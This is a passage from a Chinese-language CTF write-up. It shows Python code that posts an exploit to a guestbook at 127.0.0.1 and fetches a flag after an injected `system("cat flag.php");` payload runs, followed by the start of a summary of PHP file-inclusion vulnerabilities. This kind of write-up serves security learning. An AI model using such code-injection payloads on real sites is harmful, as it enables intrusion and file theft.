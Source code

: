    前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是 `system("cat flag.php");` 所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
       
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`![break2_flag](../img/Break2_catchFlag_308.png)

### 技术总结

1. **文件包含漏洞**

   > **漏洞描述**
   >
   > 在通过PHP的 `incluede` 、 `require` 等函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，导致意外的文件泄露甚至恶意的代码注入，主要包括本地文件包含和远程文件包含两种形式。
